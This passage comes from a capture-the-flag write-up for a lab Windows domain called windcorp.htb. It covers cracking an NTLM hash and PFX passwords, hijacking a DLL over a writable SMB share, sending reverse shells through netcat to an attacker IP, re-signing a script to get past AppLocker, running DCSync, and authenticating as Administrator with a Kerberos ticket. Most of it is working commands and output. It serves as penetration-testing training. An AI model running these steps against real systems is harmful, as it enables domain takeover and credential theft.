-a----          8/1/2026  12:48 PM         810416 accesschk64.txt                                                      
-a----         9/26/2018  11:53 AM             85 blank.gif                                                            
-a----         9/26/2018  11:53 AM           2326 logo.png                                                             
-a----          8/1/2026   8:54 AM          44454 shell.aspx                                                           
-a----          8/1/2026   8:54 AM          44454 shell.txt                                                            
-a----         2/16/2022  10:28 PM          13027 windcorp.png                                                         

PS C:\inetpub\wwwroot\Data\sites\1\media\logos>
```

With the tool on disk (using the same rename-via-Copy trick we used for the web shell), we could now use `accesschk64.exe` for further permission enumeration.

---

## Discovering Weak Domain Credentials

### The Get-bADpasswords Audit Log

While exploring the filesystem from our IIS AppPool shell, we discovered a CSV file at:

```
C:\Get-bADPasswords\Accessible\CSVs\exported_windcorp-<timestamp>.csv
```

Running `get-content *` inside that directory showed:

```
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7
```

### Understanding the CSV

This is a log file created by the `Get-bADpasswords.ps1` script - a password auditing tool that connects to Active Directory, extracts every user account's NTLM password hash, compares those hashes against known weak/leaked password lists, and logs any matches it finds.

**Field breakdown for this row:**

- **Activity: `active`** - `BeatriceMill`'s account is enabled and active in Active Directory (an inactive account would show `inactive`).
- **Password Type: `weak`** - the script classified her password as weak, meaning the hash matched a password in one of its wordlists. Other possible values: `empty` (no password set), `shared` (same password as another user).
- **Account Type: `regular`** - a standard user, not a privileged account like Domain Admin. Other values include `Domain Admins`, `Enterprise Admins`, etc.
- **Account Name: `BeatriceMill`** - the actual Windows username in Active Directory (full form: `WINDCORP\BeatriceMill`), a valid domain user account.
- **Account SID: `S-1-5-21-3783586571-2109290616-3725730865-5992`** - the Security Identifier: `S-1-5-21` is the domain SID prefix, `3783586571-2109290616-3725730865` is the domain's unique identifier, and `5992` is the Relative Identifier (RID) for this specific user.
- **Password Hash: `9cb01504ba0247ad5c6e08f7ccae7903`** - her NTLM hash (32 hex characters). This is important: even without knowing the plaintext, this hash alone could theoretically be used for a Pass-the-Hash attack.
- **Password List: `'leaked-passwords-v7'`** - the name of the wordlist that contained a match for her password, confirming her password is common/weak/publicly leaked.

**Why this matters:** normally we don't have any valid domain usernames or credentials. Now we know a real username (`WINDCORP\BeatriceMill`) and have her NTLM hash in hand - a very promising lead.

### Cracking BeatriceMill's Hash

```
hyena@hyena$ hashcat -m 1000 -a 0 beatrice_hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-10850H CPU @ 2.70GHz, 6859/13719 MB (2048 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 515 MB (5399 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

9cb01504ba0247ad5c6e08f7ccae7903:!!!!ilovegood17          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 9cb01504ba0247ad5c6e08f7ccae7903
Time.Started.....: Sat Aug  1 15:31:31 2026 (2 secs)
Time.Estimated...: Sat Aug  1 15:31:33 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  5690.9 kH/s (0.35ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14340096/14344385 (99.97%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: !carolyn -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Temp: 47c Util: 32%

Started: Sat Aug  1 15:31:15 2026
Stopped: Sat Aug  1 15:31:34 2026
```

Cracked instantly against `rockyou.txt`: `BeatriceMill`'s password is `!!!!ilovegood17`. With a valid domain password (not just a hash), we can now authenticate as a real domain user and get a Kerberos ticket, opening up LDAP/SMB/Kerberos-authenticated enumeration.

---

# Complete Write-Up: SMB Share Enumeration to SYSTEM Shell

## Phase 1: SMB Share Enumeration

After cracking BeatriceMill's password (`!!!!ilovegood17`) and obtaining a valid Kerberos ticket, we needed to understand what network resources our compromised user could access. We used **nxc (NetExec)** with Kerberos authentication to enumerate SMB shares on the domain controller:

```bash
nxc smb hathor.windcorp.htb -k -d windcorp.htb -u beatricemill -p '!!!!ilovegood17' --shares
```

**Output Analysis:**
```
SMB         hathor.windcorp.htb 445    hathor           [+] windcorp.htb\beatricemill:!!!!ilovegood17 
SMB         hathor.windcorp.htb 445    hathor           share           READ,WRITE
```

This revealed a critical finding: `beatricemill` has **READ and WRITE** permissions on a non-default SMB share named `share`. That means we can upload, modify, and delete files on the target system through this share - a direct pathway to place malicious files.

### A Note on DNS Resolution

Before we could actually connect, the first attempt to reach the share stalled - Kerberos authentication depends on our attack machine being able to resolve `hathor.windcorp.htb` back to the domain's own DNS server rather than whatever resolver our host was already using, and our `/etc/resolv.conf` wasn't pointed at the DC. We fixed this by pointing our resolver directly at the target:

```bash
hyena@hyena$ echo "nameserver 10.129.230.109" | sudo tee /etc/resolv.conf
```

```bash
hyena@hyena$ cat /etc/resolv.conf
nameserver 10.129.230.109
```

With `/etc/resolv.conf` now resolving through the domain's own DNS server, `hathor.windcorp.htb` resolved correctly and the Kerberos-authenticated SMB connection went through without issue.

## Phase 2: Connecting to the Share

To explore what files existed in this writable share, we connected using `smbclient` with our Kerberos ticket:

```bash
smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N -k
```

**Inside the Share:**
```
smb: \> ls
  .                                   D        0  Wed Nov  9 21:01:36 2022
  ..                                DHS        0  Tue Apr 19 12:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Thu Mar 15 13:17:44 2018
  Bginfo64.exe                        A  4601208  Thu Sep 19 20:15:38 2019
  scripts                             D        0  Mon Mar 21 21:22:59 2022
```

We found two executables (`AutoIt3_x64.exe` and `Bginfo64.exe`) and a `scripts` folder. Inside the scripts folder:

```bash
smb: \scripts\> ls
  .                                   D        0  Mon Mar 21 21:22:59 2022
  ..                                  D        0  Wed Nov  9 21:01:36 2022
  7-zip64.dll                         A  1076736  Mon Mar 21 13:43:58 2022
  7Zip.au3                            A    54739  Thu Oct 18 20:02:02 2012
```

We discovered `7-zip64.dll` in the scripts folder. Examining the AutoIt scripts (particularly `7Zip.au3`) revealed that they referenced and loaded this DLL. This was our entry point: if we could replace this DLL with our own malicious version, we would get code execution when the scheduled task ran the AutoIt scripts.

## Phase 3: Identifying Periodic Execution

To confirm these executables were actually running periodically, we created a batch script from our web shell that continuously checked the process list:

```cmd
FOR /L %i IN (0,1,1000) DO (
  tasklist /FI "imagename eq Bginfo64.exe" | findstr /v "No tasks" & 
  tasklist /FI "imagename eq AutoIt3_x64.exe" | findstr /v "No tasks" & 
  ping -n 2 127.0.0.1 > NUL 
)
```

**Output After Waiting:**
```
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
AutoIt3_x64.exe              19676                            1     11,856 K

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
Bginfo64.exe                 25352                            1     20,392 K
```

This confirmed both `AutoIt3_x64.exe` and `Bginfo64.exe` ran regularly. AutoIt ran for about 30 seconds, followed by Bginfo for 10 seconds, with the cycle repeating every 3-5 minutes. These scheduled tasks were perfect targets for a hijacking attack.

## Phase 4: Testing File Overwrite Permissions

Our first thought was to directly overwrite the executables, but we needed to test if we had permission:

```bash
smb: \> put nc64.exe AutoIt3_x64.exe
NT_STATUS_ACCESS_DENIED opening remote file \AutoIt3_x64.exe

smb: \> put nc64.exe Bginfo64.exe
NT_STATUS_ACCESS_DENIED opening remote file \Bginfo64.exe
```

Both attempts failed with `NT_STATUS_ACCESS_DENIED`. We also discovered that uploading `.exe` files was blocked entirely:

```bash
smb: \> put nc64.exe 
NT_STATUS_ACCESS_DENIED opening remote file \nc64.exe
```

However, uploading the same file with a `.txt` extension worked:

```bash
smb: \> put nc64.exe nc64.txt
putting file nc64.exe as \nc64.txt (40.1 kb/s) (average 40.1 kb/s)
```

More importantly, we discovered that DLL files were **not** blocked. We successfully overwrote `7-zip64.dll`:

```bash
smb: \scripts\> put nc64.exe 7-zip64.dll
putting file nc64.exe as \scripts\7-zip64.dll (87.2 kb/s) (average 62.8 kb/s)

smb: \scripts\> ls 7-zip64.dll 
  7-zip64.dll                         A    45272  Wed Nov  9 23:02:34 2022
```

This confirmed we could perform DLL hijacking on the AutoIt scheduled task.

## Phase 5: Crafting a Test DLL

Before creating a reverse shell, we needed to verify that our DLL would actually execute and understand the user context it ran in. We created a simple DLL in Visual Studio:

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
system("cmd.exe /c ping 10.10.14.6");
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
```

We compiled this as `7-zip64.dll` and uploaded it to the scripts folder. On our attack machine, we started monitoring for ICMP packets:

```bash
sudo tcpdump -ni tun0 icmp
```

**Output:**
```
12:39:57.992781 IP 10.10.11.147 > 10.10.14.6: ICMP echo request
12:39:57.992824 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply
```

The ping requests confirmed our DLL executed successfully.

## Phase 6: Enumerating Execution Context

To understand who was running our DLL and what permissions existed, we created a more detailed DLL:

```cpp
case DLL_PROCESS_ATTACH:
    system("cmd.exe /c whoami /all > C:\\users\\public\\0xdf.txt");
    system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\0xdf.txt");
    system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\0xdf.txt");
    system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\0xdf.txt");
    system("cmd.exe /c ping 10.10.14.6");
```

After uploading and waiting, we read the output file:

```cmd
c:\Users\Public>type 0xdf.txt
```

**Key Findings:**
- The DLL executed as user `ginawild`
- `ginawild` is a member of the `ITDep` group
- The `ITDep` group has **write owner (WO)** permission on `Bginfo64.exe`
- `ginawild` has full control over `Bginfo64.exe` through group membership
- `7-zip64.dll` is writable by all users

## Phase 7: Discovering Firewall Rules

We also queried the firewall rules to understand network restrictions:

```cmd
reg query HKLM\Software\Policies\Microsoft\WindowsFirewall\FirewallRules
```

**Finding:**
- AutoIt connections are **blocked** by the firewall
- Bginfo connections are **allowed** by the firewall
- AppLocker whitelists `Bginfo64.exe` from the share path, even if unsigned

This meant we couldn't use AutoIt for a reverse shell, but Bginfo was the perfect target.

## Phase 8: Creating the Privilege Escalation DLL

With all this information, we built our final DLL to:

1. Take ownership of `Bginfo64.exe`
2. Grant `ginawild` full control
3. Copy `nc64.exe` over `Bginfo64.exe`
4. Execute `nc64.exe` to connect back to our listener

```cpp
case DLL_PROCESS_ATTACH:
    system("cmd /c takeown /F C:\\share\\Bginfo64.exe");
    system("cmd /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
    system("cmd /c copy C:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe C:\\share\\Bginfo64.exe");
    system("cmd /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.6 9003");
```

We also needed to upload `nc64.exe` to the web directory. Using the web shell:

```powershell
ren "C:\inetpub\wwwroot\Data\Sites\1\media\logos\nc64.txt" "nc64.exe"
```

Then we uploaded our final DLL and waited.

## Phase 9: Getting Reverse Shell as GinaWild

We started our listener:

```bash
rlwrap -cAr nc -lvnp 9003
```

When the scheduled task ran, we received the connection:

```
Listening on 0.0.0.0 9003
Connection received on 10.10.11.147 56824
c:\share>
```

We confirmed our user:

```cmd
c:\share> whoami
windcorp\ginawild
```

## Phase 10: Getting SYSTEM Shell

Now that `Bginfo64.exe` was replaced with `nc64.exe`, we started another listener:

```bash
rlwrap -cAr nc -lvnp 9004
```

The Bginfo scheduled task runs every 3-5 minutes as SYSTEM. When it did:

```
Listening on 0.0.0.0 9004
Connection received on 10.10.11.147 56824
C:\Windows\system32>
```

We confirmed SYSTEM privileges:

```cmd
C:\Windows\system32> whoami
nt authority\system
```

## Phase 11: Retrieving Flags

With the ginawild shell:

```cmd
c:\Users\GinaWild\Desktop>type user.txt
c7de9935************************
```

With the SYSTEM shell, we continue into the domain-privilege-escalation phase below.

---

# Complete Write-Up: Privilege Escalation to Domain Admin

## Theory: Understanding the Attack Path

After gaining a shell as `ginawild`, we needed to understand how to escalate our privileges further. The `Get-bADpasswords` script was a critical component because it had the ability to read password hashes from Active Directory. However, the script was digitally signed, meaning we couldn't modify it directly without breaking the signature check. Our goal was to obtain the certificate used to sign the script, modify the script to execute our own commands, sign the modified version ourselves, and trigger execution to get a shell as the account running the script - which would carry Domain Admin-level privileges.

The key insight was discovering a deleted certificate sitting in the Recycle Bin. This certificate was used for code signing, and cracking its password allowed us to sign modified PowerShell scripts ourselves. Since AppLocker was configured to allow signed scripts, this let us bypass the restriction entirely and execute our own modified version of `Get-bADpasswords.ps1`. This gave us a shell as `bpassrunner`, the account that runs the script and holds DCSync privileges.

Once we had a shell as `bpassrunner`, we performed a DCSync attack to extract the Administrator's NTLM hash. That hash was then used to create a Kerberos ticket and authenticate as Administrator, giving us full control over the domain.

## Phase 1: Exploring GinaWild's Environment

After gaining a shell as `ginawild`, we began exploring the user's environment for useful files, shortcuts, or configurations that could help us escalate privileges further. We navigated to the Public Desktop directory, which contains shortcuts visible on every user's desktop.

```cmd
c:\Users\Public\Desktop>dir
```

**Output:**
```
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\Users\Public\Desktop

11/10/2022  07:40 PM    <DIR>          ..
03/18/2022  01:19 PM             1,111 bAD Passwords.lnk
               1 File(s)          1,111 bytes
               1 Dir(s)   9,230,606,336 bytes free
```

We discovered a shortcut called `bAD Passwords.lnk`, which appeared to be related to the `Get-bADpasswords` script. Since this shortcut is visible to all users on the system, it suggested the script was used regularly. To investigate what it pointed to, we used PowerShell to read its target path:

```cmd
c:\Users\Public\Desktop>powershell -c "$sh = New-Object -ComObject WScript.Shell; $sh.CreateShortcut('.\bAD Passwords.lnk').TargetPath"
```

**Output:**
```
C:\Get-bADpasswords\run.vbs
```

This revealed the shortcut points to `run.vbs` inside the `Get-bADpasswords` directory - meaning the `Get-bADpasswords` script could be triggered by running this VBS file. The fact that this shortcut lives on the Public Desktop suggests the script is run regularly by users with elevated privileges, making it a perfect target for our attack.

## Phase 2: Discovering Certificate Files in the Recycle Bin

While enumerating the system, we checked the Recycle Bin for any interesting files that might have been deleted but not fully removed. We navigated to `C:\$Recycle.Bin`, which contains hidden per-user directories named after each user's SID.

```cmd
c:\$Recycle.Bin>dir /a
```

**Output:**
```
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\$Recycle.Bin

02/14/2022  07:48 PM    <DIR>          .
04/19/2022  01:45 PM    <DIR>          ..
02/14/2022  07:48 PM    <DIR>          S-1-5-18
10/06/2021  11:51 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2359
10/13/2022  08:11 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2663
10/13/2022  08:05 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-500
```

From our earlier enumeration, we knew GinaWild's SID ended in `-2663`. We could access that specific directory while the others were inaccessible to us:

```cmd
c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>dir
```

**Output:**
```
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663

10/12/2022  08:26 PM                98 $IZIX7VV.pfx
03/21/2022  03:37 PM             4,053 $RLYS3KF.pfx
10/12/2022  07:43 PM             4,280 $RZIX7VV.pfx
               3 File(s)          8,431 bytes
               0 Dir(s)   9,232,101,376 bytes free
```

We found three `.pfx` files in GinaWild's Recycle Bin. PFX files are Personal Information Exchange files used to store certificates and private keys - their presence suggested that GinaWild (or someone else) had deleted certificates from the system.

The metadata companion file `$IZIX7VV.pfx` contains information about the original filename it corresponds to:

```cmd
c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>type $IZIX7VV.pfx
```

**Output:**
```
C:\Users\GinaWild\Desktop\cert.pfx
```

This revealed the original file was named `cert.pfx` and lived on GinaWild's desktop - a certificate stored directly on a user's desktop is very likely used for something specific, possibly code signing.

## Phase 3: Downloading and Cracking Certificate Passwords

To analyze the certificate files, we needed to transfer them to our attack machine first. We copied all three PFX files to the writable SMB share for easy download:

```cmd
c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>copy * \share\
```

**Output:**
```
$IZIX7VV.pfx
$RLYS3KF.pfx
$RZIX7VV.pfx
        3 file(s) copied
```

From our attack machine, we connected to the SMB share and downloaded the files:

```bash
hyena@hyena$ smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N -k
smb: \> get $IZIX7VV.pfx
smb: \> get $RLYS3KF.pfx
smb: \> get $RZIX7VV.pfx
```

We attempted to extract information from these PFX files using OpenSSL:

```bash
hyena@hyena$ openssl pkcs12 -info -in $RZIX7VV.pfx -noout
```

**Output:**
```
Enter Import Password:
Mac verify error: invalid password?
```

Both `$RZIX7VV.pfx` and `$RLYS3KF.pfx` required passwords. The third file, `$IZIX7VV.pfx`, was just metadata.

To crack the passwords, we used `crackpkcs12`, a tool built specifically for cracking PFX file passwords:

```bash
hyena@hyena$ crackpkcs12 -d /usr/share/wordlists/rockyou.txt $RLYS3KF.pfx
```

**Output:**
```
Dictionary attack - Starting 4 threads

*********************************************************
Dictionary attack - Thread 3 - Password found: abceasyas123
*********************************************************
```

The first file cracked almost instantly with the password `abceasyas123`. The second file took a bit longer:

```bash
hyena@hyena$ time crackpkcs12 -d /usr/share/wordlists/rockyou.txt $RZIX7VV.pfx
```

**Output:**
```
Dictionary attack - Starting 4 threads

*********************************************************
Dictionary attack - Thread 2 - Password found: whysoeasy?
*********************************************************

real    2m0.411s
user    8m0.834s
sys     0m0.104s
```

We successfully cracked both certificates with passwords `abceasyas123` and `whysoeasy?`.

## Phase 4: Extracting and Analyzing the Certificate

With the passwords in hand, we could extract the certificate from the PFX file:

```bash
hyena@hyena$ openssl pkcs12 -in $RLYS3KF.pfx -out cert.pem -nokeys
Enter Import Password: abceasyas123
```

We viewed the certificate details to understand its purpose:

```bash
hyena@hyena$ openssl x509 -in cert.pem -noout -text
```

**Output:**
```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            20:00:00:00:05:44:ed:aa:28:b6:36:dd:dc:00:00:00:00:00:05
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC = htb, DC = windcorp, CN = windcorp-HATHOR-CA-1
        Validity
            Not Before: Mar 18 09:03:11 2022 GMT
            Not After : Mar 15 09:03:11 2032 GMT
        Subject: DC = htb, DC = windcorp, CN = Users, CN = Administrator
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (2048 bit)
                Modulus:
                    00:dc:a6:3e:fe:7f:96:b3:a2:11:df:ce:d5:23:88:
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            1.3.6.1.4.1.311.21.7: 
                0..&+.....7.....p...h......./...d.*..<...m..e...
            X509v3 Extended Key Usage: 
                Code Signing
            X509v3 Key Usage: critical
                Digital Signature
            1.3.6.1.4.1.311.21.10: 
                0.0
..+.......
            X509v3 Subject Key Identifier: 
                FD:A4:0D:4B:EC:9D:BD:B7:79:0D:F8:C3:95:5E:95:5E:8D:5F:DE:36
            X509v3 Authority Key Identifier: 
                keyid:F1:8E:4A:A4:6D:CD:82:B0:69:5D:62:F3:63:9A:7E:8B:6E:72:F6:59
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=windcorp-HATHOR-CA-1,CN=hathor,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint
            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=windcorp-HATHOR-CA-1,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: 
                othername:<unsupported>
    Signature Algorithm: sha256WithRSAEncryption
         76:b1:02:41:59:6d:63:8f:23:28:7f:5d:1c:73:a3:2e:6f:7e:
```

**Key Findings from the Certificate:**
- **Subject:** `DC = htb, DC = windcorp, CN = Users, CN = Administrator` - this certificate was issued to the Administrator account
- **Extended Key Usage:** `Code Signing` - the certificate is specifically for signing code
- **Key Usage:** `Digital Signature`

This was exactly what we needed. The certificate could be used to sign PowerShell scripts, and since it's issued to Administrator, it would be trusted system-wide.

## Phase 5: Hijacking the Get-bADpasswords Script

The `Get-bADpasswords.ps1` script was signed with a certificate that let it bypass AppLocker. Since we now had the signing certificate and its password, we could modify the script and re-sign it ourselves.

First, we needed to copy the script somewhere we could access it. The SMB share was ideal:

```cmd
c:\Get-bADpasswords>copy Get-bADpasswords.ps1 \share\
```

**Output:**
```
Access is denied.
        0 file(s) copied.
```

We couldn't copy `.ps1` files directly to the share because it blocks executable-script extensions. We renamed it to `.txt` first:

```cmd
c:\Get-bADpasswords>copy Get-bADpasswords.ps1 \share\gbp.txt
```

**Output:**
```
        1 file(s) copied.
```

We downloaded the script from our attack machine:

```bash
hyena@hyena$ smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N -k
smb: \> get gbp.txt
```

We modified it by adding a line at the top to dump user information:

```powershell
whoami /all > C:\Programdata\0xdf.txt
```

This would write detailed user information to a file when the script executed, helping us confirm the user context it runs under.

## Phase 6: Signing the Modified Script

Now we needed to sign the modified script using the certificate we extracted. We worked in PowerShell on the target machine:

```powershell
PS C:\> $pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force
```

This created a secure string containing the certificate password. Next, we imported the certificate:

```powershell
PS C:\> $cert = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My
```

**Output:**
```
   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject
----------                                -------
204F12473FD6911584501215758270B25701D049  CN=Administrator, CN=Users, DC=windcorp, DC=htb 
```

We then signed the modified script:

```powershell
PS C:\Get-bADpasswords> Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert
```

**Output:**
```
    Directory: C:\get-badpasswords

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
204F12473FD6911584501215758270B25701D049  Valid                                  Get-bADpasswords.ps1
```

The script was now signed with the Administrator's certificate and would bypass AppLocker's script-signing requirement.

## Phase 7: Triggering Script Execution

To trigger the script, we ran the `run.vbs` file:

```powershell
PS C:\Get-bADpasswords> cscript .\run.vbs
```

**Output:**
```
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

We checked whether our output file was created:

```powershell
PS C:\programdata> dir 0xdf.txt
```

**Output:**
```
    Directory: C:\programdata

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/10/2022  10:34 PM           6178 0xdf.txt
```

It was. We examined it to confirm the user context:

```powershell
PS C:\programdata> cat 0xdf.txt
```

**Output:**
```
USER INFORMATION
----------------

User Name            SID                                            
==================== ===============================================
windcorp\bpassrunner S-1-5-21-3783586571-2109290616-3725730865-10102
```

The script executed as `bpassrunner`. This user is not a Domain Admin itself, but holds the permissions required to run the Get-bADpasswords script - which requires DCSync privileges.

## Phase 8: Getting a Shell as bpassrunner

Now we needed to turn this into a reverse shell. We couldn't use `nc64.exe` from the web directory because AppLocker would block it, and we couldn't use raw PowerShell because the firewall blocks outbound connections from it. But `Bginfo64.exe` was both whitelisted by AppLocker and allowed through the firewall.

We updated our local copy of the script to execute `Bginfo64.exe` as a reverse shell:

```powershell
C:\share\Bginfo64.exe -e cmd 10.10.14.6 9004
```

We uploaded, signed, and triggered the script again. On our attack machine, we started a listener:

```bash
hyena@hyena$ rlwrap -cAr nc -lnvp 9004
```

**Output:**
```
Listening on 0.0.0.0 9004
Connection received on 10.10.11.147 62144
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

C:\Get-bADpasswords>whoami
windcorp\bpassrunner
```

We successfully got a shell as `bpassrunner`.

## Phase 9: DCSync Attack to Extract the Administrator's Hash

The `Get-bADpasswords` script requires Domain Admin-equivalent privileges to function, meaning `bpassrunner` has DCSync permissions. We used `Get-ADReplAccount` to extract the Administrator's NTLM hash:

```powershell
PS C:\Get-bADpasswords> Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
```

**Output:**
```
DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
Sid: S-1-5-21-3783586571-2109290616-3725730865-500
Guid: 526eb447-7a40-4fe9-b95a-f68e9d78efa1     
SamAccountName: Administrator                  
SamAccountType: User                           
UserPrincipalName:                             
PrimaryGroupId: 513                            
SidHistory:                                    
Enabled: True                                  
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False                                 
LastLogonDate: 11/5/2022 12:41:33 PM           
DisplayName:                                   
GivenName:                                     
Surname:                                       
Description: Built-in account for administering the computer/domain
ServicePrincipalName:                          
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, 
SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-3783586571-2109290616-3725730865-512                           
Secrets                                        
  NTHash: b3ff8d7532eef396a5347ed33933030f
  LMHash:                                      
  NTHashHistory:          
    Hash 01: b3ff8d7532eef396a5347ed33933030f
```

We successfully extracted the Administrator's NTLM hash: `b3ff8d7532eef396a5347ed33933030f`.

## Phase 10: Creating a Kerberos Ticket Using the Hash

We used `ktutil` to create a keytab file containing the Administrator hash:

```bash
hyena@hyena$ ktutil
ktutil:  add_entry -p administrator@WINDCORP.HTB -k 1 -key -e rc4-hmac
Key for administrator@WINDCORP.HTB (hex): b3ff8d7532eef396a5347ed33933030f
ktutil:  write_kt administrator.keytab
ktutil:  exit
```

We then obtained a Kerberos ticket using `kinit`:

```bash
hyena@hyena$ kinit -V -k -t administrator.keytab -f administrator@WINDCORP.HTB
```

**Output:**
```
Using default cache: /tmp/krb5cc_1000
Using principal: administrator@WINDCORP.HTB
Using keytab: administrator.keytab
Authenticated to Kerberos v5
```

We verified the ticket:

```bash
hyena@hyena$ klist
```

**Output:**
```
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: administrator@WINDCORP.HTB

Valid starting       Expires              Service principal
11/10/2022 22:48:08  11/11/2022 08:48:08  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 11/11/2022 22:48:07
```

## Phase 11: Alternative Ticket Acquisition with Impacket

We could also use `getTGT.py` from Impacket to get a ticket:

```bash
hyena@hyena$ getTGT.py -hashes :b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator
```

**Output:**
```
[*] Saving ticket in administrator.ccache
```

This created a ticket file that we could use with the `KRB5CCNAME` environment variable:

```bash
hyena@hyena$ KRB5CCNAME=./administrator.ccache klist
```

**Output:**
```
Ticket cache: FILE:./administrator.ccache
Default principal: administrator@WINDCORP.HTB

Valid starting       Expires              Service principal
11/11/2022 11:54:12  11/11/2022 21:54:12  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 11/12/2022 11:54:11
```

## Phase 12: Getting Administrator Shell via Evil-WinRM

With the Kerberos ticket, we connected as Administrator using Evil-WinRM:

```bash
hyena@hyena$ evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB
```

**Output:**
```
Evil-WinRM shell v3.4
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Or using the ticket obtained from `getTGT.py`:

```bash
hyena@hyena$ KRB5CCNAME=./administrator.ccache evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB
```

**Output:**
```
Evil-WinRM shell v3.4
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


## Phase 13: Retrieving the Root Flag

Finally, we retrieved the root flag:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

**Output:**
```
1a921d83************************
```

---

## Complete Attack Summary

